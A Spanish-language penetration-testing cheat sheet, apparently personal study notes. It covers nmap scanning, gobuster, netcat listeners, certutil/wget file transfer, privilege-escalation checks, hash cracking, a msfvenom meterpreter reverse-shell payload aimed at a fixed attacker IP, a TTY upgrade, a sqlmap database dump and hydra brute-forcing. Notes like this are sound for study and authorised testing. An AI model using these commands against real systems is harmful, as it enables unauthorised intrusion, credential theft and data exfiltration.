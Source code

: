 ## Identificar puertos abeirtos
```sh
nmap -sS -p- --open -min-rate 5000 -n -vvv -Pn -oG allPorts
```
-oG se guarda en formato grepeable para poder extraer los puertos con extractports \
-sS escaneo sigiloso \
-p- escanea todos los puertos --open \
-min-rate 5000 Intenta enviar al menos 5000 paquetes por segundo \
-n No realiza resolución DNS \
-vvv Muestra resultados muy detallados \
-Pn Desactiva la detección de hosts

## Identificar versiones de los puertos abiertos
```sh
nmap -sV -sC -p<puertos separados por ,> -n -v -Pn -oA scan
```
-sV deteccion de versiones \
-sC ejecuta scripts por defecto \
-n No realiza resolución DNS \
-v muestra resultados detallados \
-Pn Desactiva la detección de hosts\

## Scripts con nmap
```sh
nmap --script "vuln and safe" -p
```
## Gobuster
```sh
gobuster dir -u http://example.com -w /usr/share/wordlists/dirb/common.txt -x .txt,.php -t 100 | grep -v "301"
```
dir para directorio
-u para la url\
-w para pasarle el diccionario\
-x para agregar .txt a todos los datos del diccionario\
-t para los hilos\
| grep -v "301" para no mostrar los status

## Colocarse en escucha
```sh
nc -lvnp <puerto>
```

## Abrir un servidor para transferir archivos
```sh
python3 -m http.server <puerto>
```

## Escalacion de privilegios en Windows (Windows-Exploit-Suggester)
Revissar version   systeminfo\
En el windows se coloca el comando systeminfo y ese output se guarda en linux en un archivo llamado systeminfo.txt
```sh
python2 windows-exploit-suggester -u //descarga el archivo
python2 windows-exploit-suggester -d <archivo descargado> -i systeminfo.txt
```

privilegios whoami /priv\
SeImpersonatePrivilege        Impersonate a client after authentication Enabled >>> juicipotato privilege escalation (churrasco.exe para sistemas antiguos) \(https://binaryregion.wordpress.com/2021/06/14/privilege-escalation-windows-juicypotato-exe/)\
o printspoofer\
winpeas

## Transferir archivos de linux a windows
En linux abrir un servidor\
Windows:
```sh
certutil -urlcache -f http://<ip que esta enviando el archivo>:<puerto>/archivo.extension archivo.extension
```

linux:
```sh
impacket-smbserver recurso $(pwd) -smb2support
```
windows:
```sh
copy \\<ip atacante>\recurso\archivo.extension archivo.extension
```

## Transferir archivos de linux a linux
Abrir servidor\
recibir:
```sh
wget http://<ip que esta enviando el archivo>:<puerto>/archivo.etension -O archivo.extension
```

## Escalar privilegios en linux
Permisos sudo: 
```sh
sudo -l
```
Permisos suid: 
```sh
find / -type f -perm -4000 -ls 2>/dev/null
```
listar tareas predefinidas : 
```sh
cat /etc/crontab
```
Linux versiones anteriores 
```sh
searchsploit dirty cow
```

## Pasar de hexadecimal a normal
Linux versiones anteriores 
```sh
echo "486f6c61206d756e646f" | xxd -r -p
```

## Pasar de base 64 a normal
```sh
echo "Qm9iIC0gIVBAJCRXMHJEITEyMw==" | base64 -d
```

## Decifrar hash
Saber el tipo de hash
```sh
hashid hash
```
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt hash -format=Raw-SHA256
```

## Reverseshell msfvenom
```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.32 LPORT=443 -f aspx -o shell2.aspx
```

## mejorar bash
```sh
script /dev/null -c bash
```
crtl + z
```sh
stty raw -echo; fg
```
```sh
reset xterm
```
```sh
export TERM=xterm
```
En la terminal del atacante para saber el tamaño de nano
```sh
stty size
```
En la terminal de la victima para ajustar el tamaño de nano
```sh
stty rows <rows> columns <columns>
```

##  Listar puertos ocultos
```sh
netstat -na -p tcp
```

## Sql map
Con burpsuite ver la peticion y descargar el archivo como request.txt
```sh
sqlmap -r request.txt --dbms=mysql --dump
```

## Listar smb
Ver recursos compartidos
```sh
smbclient -L ip
```
```sh
smbclient  //ip/recurso
```
Descargar archivo
```sh
get archivo
```
Subir archivo 
```sh
put archiv
```

## Hydra
```sh
hydra -l <usuario> -P <diccionario> <objetivo> <servicio> <opciones específicas del servicio>
```
-l <usuario>: Especifica un solo nombre de usuario.\
-L <archivo>: Especifica un archivo con una lista de usuarios.\
-p <contraseña>: Especifica una sola contraseña.\
-P <archivo>: Especifica un archivo con una lista de contraseñas.\
<objetivo>: La dirección IP o dominio del objetivo.\
<servicio>: El protocolo o servicio a atacar (por ejemplo: ssh, ftp, http-post-form, smb, etc.).\
<opciones específicas del servicio>: Dependiendo del servicio, puedes necesitar opciones adicionales.








